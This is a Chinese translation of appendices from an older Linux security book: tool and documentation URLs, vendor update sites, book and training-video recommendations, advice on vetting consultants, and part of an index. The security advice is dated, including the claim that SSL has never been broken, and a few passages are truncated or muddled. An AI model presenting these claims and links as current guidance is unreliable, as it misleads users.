### C.5.14 下载 SARA 安全审计器

`SARA` 安全审计器是一个基于 `SATAN` 源码的新工具，但将继续及时增强并持续更新，以应对新发现的利用方法，有时甚至在这些利用方法成为常识之前。这是一个优秀的工具，建议试一试。

`www-arc.com/sara/`

此外，他们提供一个邮件列表，你可以按如下方式订阅：

```bash
echo subscribe sara-l | Mail -s subscribe list@mail-arc.com
```

### C.5.15 下载 nmap

`nmap` 工具允许映射网络上系统的开放端口。可以从以下地址下载：

`www.insecure.org/nmap/`

### C.5.16 下载 Snort 攻击检测器

`Snort` 设计用于深度嗅探网络，寻找已知攻击的模式并警告你。它拥有包含 500 多个攻击签名的庞大数据库，并且该数据库保持最新状态。当你遭受攻击时，这是一个发出第一警报的绝佳工具。

`www.snort.org/`

### C.5.17 下载 SHADOW

`SHADOW` 是一个复杂的工具，用于分析入侵尝试和成功入侵，并识别大量正常流量中许多入侵尝试的模式，该工具由美国海军海上系统司令部（Naval Surface Warfare Center）提供。

它以近实时方式运行，生成警报并捕获数据包以进行进一步分析和作为后续法律行动的证据。它可以检测通过 TCP“半开”、发送 UDP 回复等进行的隐身扫描。这是一款优秀的免费产品，甚至可以处理非常大的站点。

`www.nswc.navy.mil/ISSEC/CID/`

### C.5.18 下载 SAINT 安全审计器

`SAINT` 是一个扫描系统安全漏洞的程序。它现在能够识别各种 DDoS 程序的僵尸程序，如 `Trin00`、`TFN`、`Stacheldraht`、`Shaft` 和 `mstream`，以及各种 `Sendmail` 和 `WU-FTPD` 弱点。它源自 `SATAN`。

`www.wwdsi.com/saint/`

### C.5.19 下载 IP Chains 配置工具

`PMFirewall` 是 Linux 的 `IP Chains` 防火墙和 Masquerading 配置程序。它旨在允许新手在很少或没有 `IP Chains` 经验的情况下构建自定义防火墙。它在 Tucows 上获得了四只企鹅的评级。它了解工作站、服务器、防火墙和路由器的常见 `IP Chains` 配置。它可以处理多个以太网卡、电缆调制解调器、拨号连接和 Masquerading。它会为每个接口自动确定地址和子网掩码。它几乎可以在所有 Linux 发行版上工作。

`www.pointman.org/PMFirewall/`

### C.5.20 下载 SSL

`SSL` 是 Secure Socket Layer（安全套接字层）的缩写。它是提供加密和身份验证的代码及协议，正是它让 `https`、`pop3s` 和 `imaps` 中的“s”得以成立。它能非常有效地防止网络嗅探和欺骗。即使是互联网银行和商务等高安全性应用程序也依赖于它。据我所知，它从未被攻破。

> 值得注意的是，`SSL` 仅解决网络嗅探和身份验证问题，且前提是使用正确。一些网站并未对所有通过互联网传输的敏感信息使用 `SSL`。尽管 `SSL` 是由 Netscape Communications 发明的，但其浏览器的某些版本曾错误地使用 `SSL`，从而使用户容易受到不良网站的侵害。相关内容在 107 页的“升级 Netscape”中有详细讨论。


不要因为你或你的网站使用了 `SSL` 就产生虚假的安全感——`SSL` 只是安全的一个组成部分。此外也要考虑到，由于 `SSL` 提供了通过防火墙的加密通信，防火墙无法检测通过 `SSL` 进行的基于内容的攻击。这些攻击包括导致缓冲区溢出的长名称、非 ASCII 数据以及 Web 服务器和客户端易受攻击的其他许多类型。

可以从以下地址下载 `SSL` 的开源版本，该版本包括 `sslproxy` 程序（用于包裹 `imap` 和 `pop3` 服务器）、`stunnel`、`edssl` 以及 `SSL` 库：

`www.openssl.org/`

它包含了 `fetchmail-ssl` 及类似程序所需的 `ssl` 库。

### C.5.21 下载 sslwrap

`sslwrap` 程序可以轻松地将任何 `TCP` 服务封装在 `SSL` 中。特别推荐用于 `imap` 和 `pop3`。（注意，不推荐用于 `https`。`Apache` 的 `http-ssl` 是更好的解决方案。）另请参见 152 页的“`POP` 和 `IMAP` 服务器”。

`www.rickk.com/sslwrap/`

### C.5.22 使用 SSH 封装的 CVS 网站

`CVS` 是一个在互联网上进行共享软件开发时非常有用的工具，自始至终都是 Linux 开发的一部分。不幸的是，它本身并不安全。只需少量工作，就可以将其封装在 `SSH` 中，因为对于 `SSH` 而言，`CVS` 只是另一种 `TCP` 服务。以下网站

`http://cuba.xs4all.nl/~tim/scvs`

记录了如何执行此操作。

### C.5.23 下载加密磁盘驱动程序

可堆叠在磁盘驱动程序之上的加密设备驱动程序 `PPDD`（Practical Privacy Disk Driver，实用隐私磁盘驱动程序）可以从以下地址下载：

`http://linux01.gwdg.de/~alatham/ppdd.html`

### C.5.24 非 Root 权限运行 Sendmail

此页面解释了如何配置 `sendmail`，使其永远不以 `root` 身份运行，并由 `inetd` 调用，从而允许使用 `TCP Wrappers` 并免受逆向 `DNS` 欺骗的影响。

`www.coker.com.au/~russell/sendmail.html`

### C.5.25 下载 postfix

`postfix` 程序是 `sendmail` 的替代方案，一些安全专家认为由于其使用了“安全环”（Rings of Security），它在本质上更加安全。其优势在 122 页的“`Sendmail`”中有讨论。

`www.postfix.org/`

### C.5.26 Libsafe

这个创新的库可以规避导致缓冲区溢出的一些常见 C 语言编程错误。这些错误是 Linux 系统被入侵的最常见入口点之一，仅凭良好的系统管理实践无法完全克服。该库通过拦截由存在缺陷的代码调用的最常见字符串处理库例程，并缓解问题来发挥作用。

### C.5.27 已观察到的攻击

此网站发布了针对各个端口的各种已发起的攻击；换句话说，就是观察到的这些端口上的特洛伊木马。通过了解这些，你可以获得关于你的某些系统可能遭受了何种入侵的宝贵线索。

`www.robertgraham.com/pubs/firewall-seen.html`

### C.5.28 使用 Sam Spade 分析攻击者

这个有趣的网站提供许多用于分析其他网站（IP 地址）的工具。它可以告知 IP 地址所属的域名，安全地分析网页（尽管 `tcpread` 也可以做到），允许在暴露你的 IP 地址的情况下查看网站，并且可以检查你的邮件服务器是否允许中继。不幸的是，这个网站也可以被用于邪恶目的，但黑客最终会发现它。我认为它对“白帽子”（安全研究人员/道德黑客）的价值足以将其列入清单。

`www.samspade.org/`

## C.6 文档 URL

这些包含有用且撰写良好的文档。其中一些已翻译成英语以外的语言。

### C.6.1 Linux 文档

最新的 Linux 文档可以从 Linux 文档项目获取。

`www.linuxdoc.org/`

以下内容将特别有用。它们是“在线”版本。许多也可以在相同网站上以 PostScript 或 PDF 格式获取。

- `www.linuxdoc.org/HOWTO/Firewall-HOWTO.html`
- `www.linuxdoc.org/HOWTO/IPCHAINS-HOWTO.html`
- `www.linuxdoc.org/HOWTO/IP-Masquerade-HOWTO.html`
- `www.linuxdoc.org/HOWTO/ISP-Hookup-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Kernel-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Loopback-Encrypted-Filesystem-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Mail-Administrator-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Mutt-GnuPG-PGP-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Online-Troubleshooting-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Oracle-8-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Secure-Programs-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Securing-Domain-HOWTO.html`
- `www.linuxdoc.org/HOWTO/Security-HOWTO.html`
- `www.linuxdoc.org/HOWTO/VPN-HOWTO.html`
- `www.linuxdoc.org/HOWTO/mini/Firewall-Piercing.html`
- `www.linuxdoc.org/HOWTO/mini/Home-Network-mini-HOWTO.html`
- `www.linuxdoc.org/HOWTO/mini/Secure-POP+SSH.html`
- `www.linuxdoc.org/HOWTO/mini/VPN.html`
- `file:/usr/doc/pam-0.66/html/pam-6.html` *(Red Hat 及其衍生版本)*
- `http://tldp.org/HOWTO/Net-HOWTO/index.html`
- `http://tldp.org/HOWTO/ISP-Setup-RedHat-HOWTO.html`

### C.6.2 编写安全程序

这是一组关于编写安全程序的论文，包括安全的 set-UID 程序。其中一些较旧但仍然有用。与任何 URL 一样，有些可能不再可用。

- `ftp://ftp.auscert.org.au/pub/auscert/papers/secure_programming_checklist`
- `http://olympus.cs.ucdavis.edu/~bishop/scriv/1996-sans-tut.pdf`
- `www.sunworld.com/sunworldonline/swol-08-1998/swol-08-security.html`
- `www.whitefang.com/sup/`

这篇论文讨论了代码的安全审查（审计）：

`www.dnaco.net/~kragen/security-holes.html`

这篇论文提供了编写安全的 set-UID 程序的建议：

`http://olympus.cs.ucdavis.edu/~bishop/scriv/Bish86.pdf`

## C.7 通用工具 URL

这里列出了一些对安全工作有用的通用工具。

### C.7.1 DDD 调试器

数据展示调试器（`DDD`）可以从以下地址下载：

`www.gnu.org/software/ddd/`

这是作者最喜欢的 GUI 程序，展示了图形的巧妙运用。它对数据链接列表的图形化展示、自动显示所有数据变更以及对运行中代码的高亮显示，使得其调试速度远快于直接使用 `gdb`。为了避免编译的麻烦或寻找 `Motif` 或 `LessTif`，你可以直接下载静态链接的二进制文件。

### C.7.2 时区计算器

当发现来自遥远系统的访问时，能够确定该地点的当地时间是很有用的。知道这一点可以表明访问是否可能合法，以及当地是否可能有系统管理员（SysAdmin）接听电话或回复电子邮件。位于

`www.cavu.com/sunset.html`

的“日落计算器”（Sunset Computer）可以提供此信息，尽管这不是其主要用途。

你需要提供你感兴趣的地点最近的大城市。大多数国家只有一个时区。例外是最大的国家，如美国、加拿大、澳大利亚、俄罗斯、墨西哥、阿根廷、巴西、格陵兰、印度尼西亚和扎伊尔。

## C.8 规范和定义的 URL


这里列出了某些协议和其他你可能想要研究以理解或分析其安全影响的规范的 URL。互联网工程任务组（IETF）是一个由工程师组成的团体，他们持续开发用于保持互联网运行的协议。提议的新标准或现有标准的更新作为编号的征求意见稿（RFC）文档发布。最终接受的文档（规范）仍然被称为 RFC。任何 RFC 都可以从以下地址获取：

`www.faqs.org/rfcs/rfc#.html`

其中 # 是 RFC 编号。

### C.8.1 橙皮书（Orange Book）

橙皮书，更技术性地称为 DoD 5200.28-STD，“国防部可信计算机系统评估准则”，规定了满足美国政府机密材料高安全需求的安全计算要求。它被军方、中央情报局（CIA）、国家安全局（NSA）、其承包商及其他机构使用。（最安全的系统仍然保存在没有外部网络连接的上锁和屏蔽房间内。）

`www.radium.ncsc.mil/tpsp/library/rainbow/5200.28-STD.html`

### C.8.2 RFC 1813: NFS 版本 3

Sun 的 NFS 的原始规范位于 RFC 1094。NFS 版本 3 的规范是 RFC 1813。NFS 版本 3 于 1999 年末或 2000 年初开始出现在 Linux 发行版中，NFS 对 TCP 的支持也是如此。尽管通过 TCP 的 NFS 比通过 UDP

并且由于 TCP 数据包比 UDP 数据包更难被伪造，因此它在应对扩展性问题方面提供了更好的安全性。

`ftp://ftp.isi.edu/in-notes/rfc1094.txt`

`ftp://ftp.isi.edu/in-notes/rfc1813.txt`

### C.8.3 NSA 计算机安全术语表

NSA 维护了一份计算机安全术语表。

`http://www.sans.org/newlook/resources/glossary.htm`

### C.8.4 CNET 计算机术语表

CNET 在其网站上维护了一份计算机术语表：

`http://coverage.cnet.com/Resources/Info/Glossary/`

## C.9 厂商软件与更新

此处列出了各个 Linux 厂商（发行版）更新的详细信息。大多数提供免费开源产品的厂商和组织都拥有网站（HTTP 或 FTP），能够及时提供更新和错误修复。

### C.9.1 Red Hat

Red Hat 在网站上提供更新和补丁方面做得非常出色，并且详细说明了相关问题和修复方案，响应也很迅速。可以从以下地址下载更新和补丁：

`www.redhat.com/support/errata/`

`www.redhat.com/support/`

`ftp://updates.redhat.com/`

### C.9.2 Slackware

更新和补丁可以从以下地址下载：

`ftp://ftp.slackware.com/pub/linux/slackware/slackware-current/patches/`

以前是 `ftp://ftp.cdrom.com`，路径也略有不同。

如果您在购买最新的 Slackware 发行版时（在 `www.slackware.com`，前身为 `www.cdrom.com`）提供了电子邮件地址，他们会通过电子邮件通知您新的重要安全补丁以及其他补丁和更新的可用性。

作者对 Slackware 发行版中较低的错误率印象深刻。

此外，关注以下站点也是一个好主意：

`www.slackware.com/lists/`

`www.slackware.org/`

### C.9.3 SuSE

大多数人知道 SuSE 是欧洲最流行的发行版。其安全信息可在以下位置找到：

`www.suse.de/security/index.html`

### C.9.4 Mandrake

Mandrake 的官方网站和更新链接（英文）位于：

`www.linux-mandrake.com/`

`www.linux-mandrake.com/en/fupdates.php3`

### C.9.5 Caldera

Caldera 的官方网站是：

`www.caldera.com/`

### C.9.6 Debian

Debian 的官方网站是：

`www.debian.org/`

### C.9.7 Yellow Dog

Yellow Dog 的错误报告可从以下位置获取：

`www.yellowdoglinux.com/resources/`

## C.10 其他软件更新

这里讨论了一些独立维护软件的最新版本获取位置。

### C.10.1 下载 Sendmail

Linux 的各个发行商在将新版本的 sendmail 整合到其新发行版方面做得很好。在 20 世纪 90 年代末，由于 sendmail 增强了限制垃圾邮件和阻止未授权中转邮件的功能，以及修复了安全漏洞，这一点尤为突出。若要获取 Linux 发行版的更新，请参阅本附录第 604 页的“厂商软件与更新”，并在对应的发行版名称下查找。

若要获取 sendmail 的最新版本，有两个非商业互联网网站提供有关 sendmail 的有用信息。

`http://sendmail.net/`

`http://sendmail.org/`

此外，还有一家由 sendmail 的创建者 Eric Allman 本人创立的商业公司，它也维护着 sendmail 的开源版本。同时，它还提供 sendmail 的商业支持。虽然我发现 sendmail 的源代码相对容易处理（比大多数 UNIX 实用程序更容易），甚至修复一个导致其核心转储的错误只花了我几个小时，但能够接触到程序创建者的支持是非常令人放心的。

`http://sendmail.com/`

### C.10.2 PostgreSQL 数据库

Postgres 是加州大学伯克利分校在 Stonebraker 教授团队完成 Ingres 后开发的一个数据库系统。它是目前唯一提供原生 SQL 接口的公有领域数据库。它最初旨在成为一个实验系统，用于引入一些面向对象数据库概念，同时不抛弃关系数据库模型。尽管最初是一个实验性研究项目，但它是一个功能齐全的“可投入生产使用”的系统。

PostgresSQL 是 Postgres 的增强版本，在 1999 年 Linux World 大会上被评为第一数据库。Red Hat 6.1 附带了 PostgresSQL 6.5.2 的 RPM 包。有关 PostgresSQL 的详细信息，包括如何免费下载，请访问此站点。

`www.postgresql.org/`

`www.postgresql.org/info.html`

以下是 PostgresSQL 最受欢迎的邮件列表。

`pgsql-announce@postgresql.org`

`pgsql-bugs@postgresql.org`

`pgsql-questions@postgresql.org`

### C.10.3 开源存储库

北卡罗来纳大学拥有一个名为 ibiblio metalab 的优秀存储库（前身为 metalab 和 sunsite，非常知名），其中包含 Linux 发行版和其他开源资源，位于：

`ftp://ibiblio.org`

其 Secure Shell (SSH) 的目录为：

`ftp://ibiblio.org/pub/packages/security/ssh/`

## 书籍、光盘和视频

本附录介绍了一些有价值的非网络资源，并提供了选择这些资源的一些建议。

### D.1 Linux 系统安全

这是一本优秀且最新的书，详细涵盖了许多安全工具。它应被视为*Real World Linux Security*的必备配套书籍。

*Linux System Security: The Administrator’s Guide to Open Source Security Tools*

Scott Mann and Ellen L. Mitchell

Prentice Hall PTR, © 2000

ISBN 0-13-05807-0

### D.2 构建 Linux 和 OpenBSD 防火墙

这本书专门讲述如何使用 Linux 或 OpenBSD 设置防火墙。

*OpenBSD Firewalls*

Wes Sonnenreich and Tom Yates

John Wiley & Sons, © 2000

ISBN 0-4713-5366-3

### D.3 Samba：集成 UNIX 和 Windows

John D. Blair 撰写的这本书出版于 1999 年。它评价极高，并得到 Larry Gee 的推荐，他是*Real World Linux Security*中 Samba 部分的作者。

*Samba: Integrating Unix and Windows*

John D. Blair

Specialized Systems Consultants, Inc., © 1999

ISBN 1-5783-1006-7

### D.4 Linux Sendmail 管理


Craig Hunt 撰写的这本书出版于 2001 年，评价极高。我在书店浏览它 10 分钟所获得的知识，比我花费数十小时试图在 O'Reilly 的 Sendmail 书中找到答案所获得的还要多。Hunt 的书解释了如何利用 Sendmail 的所有功能来阻止垃圾邮件，还有一章专门讨论安全和认证。

*Linux Sendmail Administration*

Craig Hunt

Sybex, © 2001

ISBN 0-7821-2737-1

### D.5 秘密与谎言：网络世界的数字安全

这本书由著名密码学家 Bruce Schneier 撰写，出版于 2000 年，评价极高。强烈推荐给经理和高管，以帮助让他们意识到安全的重要性，并以他们能理解的方式解释相关问题。技术人员也会发现这本书很有启发性。

*Secrets and Lies: Digital Security in a Networked World*

Bruce Schneier

John Wiley & Sons, © 2000

ISBN 0-4712-5311-1

### D.6 布谷鸟蛋

这是一本非常有名的书，展示了在 1989 年追踪一个黑客（cracker）是什么样子。如果你现在试图追踪一个技术高超的黑客，情况并没有太大不同。

*The Cuckoo's Egg: Tracking a Spy Through the Maze of Computer Espionage*

Clifford Stoll

Pocket Books, © 1995 (Reprint edition)

ISBN 0-6717-2688-9

### D.7 黑客

这本优秀的书让你大致了解黑客与系统管理员之间的战斗是什么样子的。有些内容可能被夸大了，但它确实让人理解那些娱乐性质的黑客。据报道，改编的电影也很好看。

Hackers

David Bischoff

Harper, © 1995

ISBN 0-0610-6375-4

### D.8 UNIX 完全指南

虽然大多数 Linux 书籍都讨论了 ext2 文件系统的细节、配置视频卡等，但它们并不教你如何使用 Linux。这正是*UNIX Complete* 所要做的。作者看到的所有评论都给了它五星好评（满分五星）。Amazon 上的一些评论包括：

> 对 Linux 初学者来说，这是一本不可或缺的书。这是我第一次感到读计算机书让人心情愉悦。

> 我需要这本书来快速掌握一门使用 UNIX 的课程。现在我对系统有足够好的了解，可以编写简单的脚本，并且可以随时参考。一切解释得清晰而迅速。这是你在 UNIX 书上能花的最明智的 20 美元（优惠后 15.99 美元）！

> 这是我买的第一本 UNIX 书。我非常喜欢它。它教会你使用操作系统的基础知识。带有桌面参考的命令、实用程序和术语表，你会参考这本书很多年。

UNIX Complete

Peter John Dyson, Stan Kelly-Bootle, John Heilborn

Sybex, Inc., © 1999

ISBN 0-782-12528-X

### D.9 计算机矛盾论

这本有趣的书应该能为维护安全这一艰难且充满压力的挑战提供绝佳的喜剧调剂。

The Computer Contradictory

Stan Kelly-Bootle

MIT Press, © 1995

ISBN 0-262-11202-7 (hard), ISBN 0-262-61112-0 (paper)

他的专栏也刊登在《C/C++ 用户杂志》（*C/C++ Users Journal*）、www.sarcheck.com 以及 www.unixreview.com 上。这些文章写得非常精彩。

## D.10 美国国防部 DISA 资源

美国国防部的国防信息系统局（DISA）提供了许多有助于安全教育的产品。这些非机密产品只要开口要就是免费的。下文讨论的视频可以自由复制和分发；政府鼓励您这样做。大多数视频由几个部分或主题组成。每个部分都有标题，但视频本身没有标题。

要订购这些产品中的任何一个，请在浏览器中访问以下网址：

`www.disa.mil/infosec/codfm2.html`

填写在线表格并选择您想要的产品。打印屏幕内容并传真至指定的电话号码。您不会收到订单已接收的确认信息。我收到的货物大约在三周后送达。

### D.10.1 CyberProtect CD-ROM

这款精彩的互动式游戏化 CD-ROM 允许您模拟担任某个机构的管理信息系统（MIS）部门经理，在预算约束下运作，设置各种安全措施，并应对入侵尝试。它让您看到各种安排的效果如何，并让您对保障站点安全所需的工作量有一个概念。

### D.10.2 安全教育 101 视频

这是我给这部由四个部分组成的 42 分钟视频起的标题：

- *计算机安全 101*（DOJ）

- *计算机安全：高管角色*（DOJ）

- *数据安全：这是你的工作*（DOL）

- *回应之前先思考*（NRO）

### D.10.3 安全 201 视频

这是我给这部幽默的 60 分钟视频起的标题，它由四个部分组成：

- *保护您的 AIS*

- *保护您的 AIS：续集*

- *D. Stroye 博士*

- *猩红 V*

### D.10.4 理解公钥基础设施 (PKI) 视频

这部 13 分钟的视频介绍了公钥基础设施（PKI），可以是新员工培训课程的一部分：

- *理解公钥基础设施*（TRT）

### D.10.5 NSA 视频

这部 31 分钟的视频部分由国家安全局（NSA）制作，它不会在五秒后自毁。NSA 获得了“无此机构”（No Such Agency）的绰号，因为即使在几十年里，它的存在也守口如瓶，极为秘密。

- *网络风险*（NCS）（10 分钟）

- *信息前线*（IW）(IC)（10 分钟）

- *推倒房子*（IW）（NSA）

### D.10.6 盯着你看的耳朵

这部 26 分钟的视频涵盖了一些非计算机领域的问题：

- *非凡的谨慎*

- *片段*

- *先生，只需传真即可*

- *盯着你看的耳朵*

### D.10.7 面向审计员与评估人员的信息保障 (IA) CD-ROM

这款交互式 CD-ROM 对计算机犯罪进行了分类和详细说明，包括威胁、对策、保密性和风险。还讨论了相关的法律。

### D.10.8 事件准备与响应 CD-ROM

其完整标题为 *系统管理员事件准备与响应（针对 Windows NT 系统管理员的 SAIPR）*（*System Administrator Incident Preparation & Response (SAIPR) for Windows NT (for System Administrators)*）。尽管它是面向 NT 管理员的，但其中一些主题是通用的、适用的，对 Linux 系统管理员也有用。主题包括在事件发生前收集信息、识别未经授权的活动、政策和程序以及调查。

它由国防部的计算机调查培训项目（DCIPT）制作。

### D.10.9 DOD INFOSEC 意识 CD-ROM

这款 CD-ROM 旨在为所有使用国防部计算机系统的人员提供计算机安全意识。

### D.10.10 操作信息系统安全 (OISS) 第 1 和 2 卷 CD-ROM

这款 CD-ROM 涵盖了通用的计算机安全意识。

## D.11 通过 TCP/IP 进行互连网络 第 I、II、III 卷

这是一本非常出色且最新的书籍，涵盖了常见协议的细节以及如何编写客户机/服务器系统。它备受推崇。第一卷第四版于 2000 年 4 月出版。

- 通过 TCP/IP 进行互连网络 第 I、II、III 卷（Internetworking with TCP/IP Vols. I, II, and III）

- Douglas Comer

- Prentice Hall, © 2000

- ISBN 0-13-018380-6（第 I 卷）

- ISBN 0-13-973843-6（第 II 卷）

- ISBN 0-13-260969-X（第 III 卷 BSD 套接字）

## D.12 Linux 应用开发

这本优秀的书籍涵盖了在 Linux 上使用 C 进行编程的各个方面。第 6 章“内存调试工具”（“Memory Debugging Tools”）将引起特别的兴趣，因为它涵盖了可能导致缓冲区溢出以及类似安全漏洞问题的内存错误调试。

- Linux 应用开发（Linux Application Development）

- Michael K. Johnson 和 Erik W. Troan

- Addison-Wesley, © 1998

- ISBN 0-20-130821-5

## D.13 顾问：好的、坏的和花言巧语的


Forrester Research 引述称，在 1998 年至 2000 年这两年间，企业在安全方面的支出增长了 900%。¹ 对于许多公司来说，最具成本效益的解决方案是聘请一位优秀的顾问，花几天或几周时间分析他们的需求，提供解决方案，培训其员工处理日常事务，并提供偶尔的持续咨询。很难区分好的顾问和坏的、花言巧语的顾问。通常，后两者在表面上看起来更好。那些在您这种系统配置方面经验丰富的单兵“车库”式运营公司，可能比那些只会使用流行术语但没有足够经验深度、专业知识或意愿去理解您的需求并提供具有成本效益的最优解决方案的公司要好得多。通常，后者只是简单地将同样的解决方案“扔给”每个人，可能会从软件或硬件供应商那里获得佣金。小公司可能并不那么显眼，他们选择将时间花在工程和研究上，而不是营销上。

您需要像寻找组织中的关键人物一样进行同样的研究，因为顾问就是关键人物。要求提供详细的简历，并与推荐人进行长时间的交谈。您需要多年经验和成功实施项目的经记录；只有一年安全经验的人遇到的问题不足以解决除了简单问题以外的任何问题。不仅要调查他们在签约前希望让您合作的高层人员，还要调查签约后让您合作的人员。坚持会面这些后一类人员并查看他们的资历；如果没有做到这一点，不要雇佣该机构。

查看他们的资历、学历和出版作品。他们的工作中有多少百分比涉及 Linux？剩余的工作中有多少涉及 UNIX？他们从事 Linux、UNIX 和安全工作多久了？他们如何保持与时俱进？让某位技术人员（在您组织内部或外部）面试该咨询公司，并坚持要求他们展示对安全的了解细节。从书本或其他地方挑选话题，让他们谈谈这些话题。如果对于大部分话题他们必须“稍后回复您”，那么他们的知识可能是有限的。模棱两可的回答也应该被视为不合格。对于较大的工作、较大的站点或更敏感的站点，花费几百到几千元请侦探调查顾问可能是一项良好的投资；对于处于受信任职位的人来说，这是常规做法。

> 我的许多客户让我对他们考虑雇佣的人员进行技术面试，包括员工和顾问。通过巧妙的提问，我能够确定候选人的技能是否如其简历所示。通常，事实并非如此。

类似“这是机密信息，你必须先雇佣我们”的回答也应被视为非常负面。在这里请使用一些常识。如果他们无法解释公钥加密，或者 PGP 和 SSH 之间的区别，或者 TCP 和 UDP 之间的区别，那就让他们打包走人；不要指望他们会免费告诉你“改善你站点安全的 10 种方法”。如果他们连两种方法都不愿告诉你，不要因此印象深刻。如果你最好的技术人员对他们没有印象，他们可能更多是炒作而非帮助。

1. 2000 年 6 月 30 日 securityfocus.com 的 InfoSec News 报道。

## 637

虽然他们希望保护一些独特的想法，但他们也应该主动提供一些信息。询问他们读过哪些安全书籍，上过哪些课程，参加过哪些会议，以及他们关注哪些新闻组、邮件列表和网站。询问他们过去有多少客户，这些客户使用他们的专业知识运行了多长时间。随后有多少百分比被入侵以及原因为何。要求与这些客户交谈。不要期望他们会告诉你所有的秘密。

如果你有一个需要保护的大型站点，你可能需要考虑聘请几位独立的顾问，其中一位作为主要顾问，另一位或多位来检查第一人的提案和工作中的漏洞和错误。看看他们是否独立得出相似的答案。如果不是，要求他们解释他们的选择。可能存在不止一种“正确”的解决方案，但他们每个人都应该能够解释各种可能解决方案的优缺点。当你对你站点做出重大更改时，你需要顾问的建议，因为总是存在“小”更改打开大型安全漏洞的危险。

². 这类似于现在常见的询问医生进行特定手术时成功率的惯例。也要考虑到有些人可能会拒绝更“困难”的案例以提高他们的统计数据。因此，了解被入侵客户的 circumstances（状况/背景）非常重要。

## 索引

### /

- `.login`, 58
- `.Net 安全`, 565
- `.profile`, 58
- `.robots`, 147
- `/etc/mail/access`, 135
- `/etc/profile`, 58
- `/etc/shadow`, 41
- `/proc/PID/exe` 可执行文件。参见 已删除的可执行文件
- `/tmp`, 52–53
- `3-way`。参见 三次握手 TCP 打开

### a

- 远程访问, 310
  - 作为客户端, 319
  - 网络时间服务器, 329–330
  - SSH 服务器, 312–313
- 账户猜测, 572–573
- 账户, 陈旧, 34–35
- ACK 标志, 198, 204, 217
- 自适应防火墙, 351
- 自适应 TCP Wrappers，限制, 570
- 地址
  - 伪造源。参见 防火墙出口过滤；
  - IP 地址解析协议 (ARP)。参见 Mac, 200
- 地址
  - 目的地址
    - `iptables`, 272–273
  - 以太网地址, 200–201
  - 非法地址, 214–215
  - IP 地址, 190–193
  - 应避免的地址, 214–215
  - 分配, 284
  - 广播地址, 191–194
  - 类别, 191, 214–215
  - 表示为符号名称, 272
  - 报头, 191
  - 安装防火墙, 339
  - 受限广播地址, 191
  - 回环地址, 191
  - 多播, 192
  - 网络地址 0, 191, 283
  - 网络定向广播地址, 191
  - 单播, 192
  - 链路本地网络地址, 215
  - 回环接口地址, 215
  - 畸形的广播地址, 215
  - 多播目的地址, 283
  - 源地址
    - `iptables`, 272
  - 欺骗, 214–215, 281–285
  - TEST-NENT 地址, 215

### 符号

- `[ ]` (方括号), 246
- `: ` (冒号), 246
- `|` (管道符号), 246
- `0.0.0.0` IP 地址, 283

### A

- 滥用，报告, 412
- 默认接受一切策略, 212
- 访问
  - DHCP 服务器, 326–329
  - 入站 FTP 服务器访问
    - 入站 FTP 请求, 316–317
    - 被动模式 FTP 数据通道响应, 319
    - 端口模式 FTP 数据通道响应, 318
  - 入站本地服务器访问, 311
  - 限制, 63
  - 出站客户端对远程 FTP 服务器的访问, 315–317

### B

- `addrtype` 过滤表匹配扩展, 263–264
- `adduser`, 376
- 广告，阻止网页, 108
- `advice.networkice.com/advice/Exploits/Ports/`, 590
- `AIDE` (文件系统完整性检查器), 391
- `AIM`, 531
- 警报 (`Snort`), 457
- `ALGs` (应用层网关), 208
- Allman, Eric, 101, 103
- IP 地址分配, 284
- 允许 DNS, 290–293
  - 作为客户端的 DNS 查询, 293–295
  - 作为转发服务器的 DNS 查询, 294–296
  - 区域传输, 291
- 美国互联网号码注册局 (`ARIN`), 413
- 分析工具，`SHADOW`, 598
- 分析问题，如何, 598
- 分析器，日志文件, 346–351
- 分析
  - 攻击者, 601
  - 破解程序, 467–476
  - IP 地址, 501–503, 504
  - 可疑文件, 383–384
- 匿名 FTP, 141–145
  - 禁用, 141
- 反垃圾邮件软件, 101, 134
- `AOL`, 558–560
- Apache
  - 监控篡改, 399
  - 密码策略（参见 密码） 绑定哪个接口, 66–67
- AppleTalk，绑定哪个接口, 66–67
- `APNIC` (亚太互联网信息中心), 413
- 应用层网关 (`ALGs`), 208
- `ARIN` (美国互联网号码注册局), 413
- `ARP` (地址解析协议)。参见 Mac, 413
- `ARPA`。参见 `DARPA`
- `Arpwatch`, 364–368
- `ARPwatch`, 364–368, 417, 431, 458–460
- 亚太互联网信息中心 (`APNIC`), 413
- 分配
  - 地址, 284
  - 端口号, 285
- 攻击
  - 检测。参见 入侵检测
  - 中间人，Samba, 174
  - 防止
    - Bastille Linux, 425
    - 内核增强, 424–425
    - 渗透测试, 426–428
    - 签名检测（参见 `Snort`）
    - 符号链接, 107
    - 测试, 426–428
    - 更新, 425–426
- 攻击者。参见 破解者
- `AUTH` 客户端, 297
- `AUTH` 请求，过滤, 297–298
- 自动寻呼, 358–363


- BALANCE nat 表目标扩展, 267
- Barbed Wire DDoS 程序, 575
- Bastille Linux, 59, 425
- `bastille-linux.org`, 594
- 边界堡垒防火墙, 185
- 伯克利互联网域名服务器 (BIND)。参见 DNS
- 加州大学伯克利分校, 551
- BIND (伯克利互联网域名服务器)。参见 DNS, 294–296
- BIOS。参见 CMOS
- 黑包任务, 523
- 阻止
  - 尝试访问非特权端口, 285
  - 破解者（参见 自适应防火墙）
  - 定向广播, 283
  - 问题站点, 215
  - 垃圾邮件, 133–134
  - 网页广告, 108
- 书籍, 612–614
- 启动过程，在...处启动防火墙
  - Debian, 338–339
  - Red Hat 和 SUSE, 338
- 启动。参见 CMOS，配置；lilo，密码
- 边界路由器, 207
- 机器人。参见 robots
- 方括号 ([ ]), 246
- 入侵，恢复, 491–493
- 英国秘密服务。参见 MI5
- 广播地址, 191–194
- 广播数据包, 580
- 广播 (IP), 194–195
- BSD 远程访问命令, 232
- 缓冲区溢出, 227
  - 使用 Lisafe 阻止, 600
  - 调用 syslog(), 584
  - CGI 漏洞, 28
- 缓冲区过量。参见 缓冲区溢出
- 漏洞修复。参见 更新

### C

- 漏洞，Red Hat 混杂, 395
- 绕过
  - 规则检查, 113–114
- C 编译器，其中的木马, 556–557
- C 程序
  - 漏洞, 25–31. 另参见 缓冲区溢出；C 编译器，其中的木马
- 电缆调制解调器, 58
  - 漏洞, 571
